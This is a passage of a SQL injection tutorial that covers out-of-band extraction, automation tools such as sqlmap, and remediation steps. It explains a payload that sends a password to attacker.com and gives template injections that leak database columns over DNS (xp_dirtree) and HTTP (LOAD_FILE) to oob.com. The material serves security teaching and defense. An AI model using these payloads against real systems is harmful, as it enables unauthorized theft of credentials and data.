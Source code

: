 - `LOAD_FILE(...)` — attempts to read a file/resource (used here to trigger an outbound fetch).
- `CONCAT('http://attacker.com/', password)` — builds a URL that embeds the secret.
- `SELECT ... FROM Users WHERE username='admin'` — selects the sensitive column.

### PoC checklist :
1. **Verify outbound capability:** send a harmless probe to your OOB domain.
2. **Find injection points:** URL/POST/cookies/headers.
3. **Choose channel:** DNS or HTTP (your-controlled domain).
4. **Minimal payload (template):**
    - DNS (MSSQL): `1'; EXEC xp_dirtree('\\' + (SELECT [COL] FROM [TABLE] WHERE [COND]) + '.oob.com\');--`
    - HTTP (MySQL concept): `1' AND (SELECT LOAD_FILE(CONCAT('http://oob.com/', (SELECT [COL] FROM [TABLE] WHERE [COND]))))--`
5. **Capture evidence:** DNS/HTTP logs + timestamps + raw requests.


- **In summary,** We use OOB SQLi when traditional SQLi methods don’t work or are filtered, to discreetly exfiltrate data through DNS/HTTP requests, bypassing in-page restrictions and testing network misconfigurations.

---

## Automation :

-  **Automation** speeds up finding SQL injection but doesn’t replace human review. Tools like **sqlmap**, **sqlninja**, **BBQSQL**, and **JSQL Injection** can quickly fingerprint databases, test common payloads (boolean, time-based, union), and automate blind-extraction. Use automation to scan broadly and gather leads, then **manually validate** findings — automated results produce false positives/negatives and can miss context-specific logic. Be careful with aggressive settings (risk/threads) to avoid service disruption. Integrate these tools into your workflow (CI scans, periodic pentests) and always keep tests authorized and logged.

---
## Remediation :

- **Use parameterized queries / prepared statements** — never concatenate user input into SQL.  
- **Principle of least privilege** — app DB accounts should have only the permissions they need.  
- **Input validation & allow-lists** — validate types/lengths/formats; prefer allow-lists over blacklists.
- **Avoid displaying DB errors** — return generic error messages; log details server-side.  
- **Use ORMs or safe DB libraries** (correctly) — they reduce raw-query risks when used properly.  
- **Disable multiple statements** in DB connectors (no stacked queries) unless explicitly needed.  
- **WAF & query logging** — add a tuned WAF, monitor logs and alerts for suspicious patterns.  
- **Network controls** — block unnecessary outbound access from DB servers.  
- **Code review & testing** — static analysis, code review, and regular security testing (authorized).

---
### **Quotes**

> "SQL Injection is not just a bug—it’s a failure to validate user input and enforce safe database practices." – _OWASP_
